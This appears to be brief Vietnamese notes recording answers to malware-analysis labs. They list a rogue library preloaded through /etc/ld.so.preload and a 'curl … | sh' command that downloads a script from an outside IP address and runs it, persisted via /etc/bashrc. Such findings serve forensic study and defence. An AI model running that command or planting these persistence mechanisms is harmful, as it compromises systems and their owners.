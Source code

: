 # Lab 21:

- Đường dẫn: /lib64/libxselinux.so

- Persistence: thư mục /etc/ld.so.preload

# Lab 23:

- Câu lệnh: curl -s -L http://217.12.221.12/Ci.sh|sh

- Persistence: được ghi vào /etc/bashrc
